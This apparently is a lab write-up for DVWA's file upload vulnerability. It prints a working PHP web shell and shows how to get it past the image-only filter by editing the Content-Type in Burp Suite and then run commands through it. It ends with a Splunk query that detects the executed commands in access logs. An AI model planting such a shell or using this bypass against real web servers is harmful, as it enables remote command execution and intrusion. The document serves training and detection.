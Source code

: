 In file upload vulnerability we will try to upload a simple php shell in the upload section and try to execute command on the victim pc

Simple GUI php shell
```
<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>
<form method="POST">
    <input type="text" name="cmd" placeholder="Enter command" />
    <input type="submit" value="Execute" />
</form>
```
create a .php file and paste the code into it

Now we will try to upload it into dvwa server

![image](https://github.com/user-attachments/assets/1799b445-c2d7-4217-8430-9adee9c317bd)

![image](https://github.com/user-attachments/assets/d18b0643-30a1-4c78-8281-58f350dc5f0d)

We were not able to upload the php file as it restricts uploading any file other than image files

Now we will use burpsuite to bypass this and upload the php file

Open burpsuite go to proxy section and open the browser within it,go to the file upload section within dvwa

![image](https://github.com/user-attachments/assets/a9e30479-bb1f-453d-90a6-aaa01b7e3fcf)

Now turn on the interception and upload the php file

![image](https://github.com/user-attachments/assets/02a041db-ed4a-49d9-8261-dc972e07b99d)

After intercepting the file right click on it and select 'send to repeater' option

![image](https://github.com/user-attachments/assets/cf7dcaaa-dcd4-4b30-b048-bc32794ea95a)

Now on the repeater tab, near the Content-Type field change it from application 'application/x-php' to 'image/png'

![image](https://github.com/user-attachments/assets/27c06c74-eaa7-46d1-b86a-24bfa71d4386)

On the right side we can see that the php file was uploaded successfully

Now stop the intercept,copy the path `../../hackable/uploads/shell.php' and replace it on the '#' in the url also add the commands for execution
eg
```
?cmd=hostname
```
After pressing enter we will be directed to the php shell where commands could be executed

![image](https://github.com/user-attachments/assets/4e0aed69-da68-43a0-8003-1b021bf2803f)

Attack successful. Now, try to detect it from Splunk Enterprise:

![image](https://github.com/user-attachments/assets/bad9cfe5-f970-4c3b-a805-34f470595d82)

On the uri/uri_path field we can see commands that have been executed using 'cmd' command

![image](https://github.com/user-attachments/assets/280e99fe-c1d6-4a41-a376-2b093b261827)

On the file field we can see the files uploaded 

![image](https://github.com/user-attachments/assets/8cf7e9be-6dec-4ff7-958e-0b6394d4d5ed)

Also by using this commnad we can see which all commands were executed on the victim pc by the attacker

```
index=* sourcetype="access_combined"
(uri_query="cmd=*")
| eval Command=urldecode(replace(uri_query, ".*cmd=", ""))
| table _time, clientip, uri, Command, useragent, req_time, bytes
| sort - _time
```
![image](https://github.com/user-attachments/assets/5d4026d5-f669-497c-8c62-99a9d4840c70)

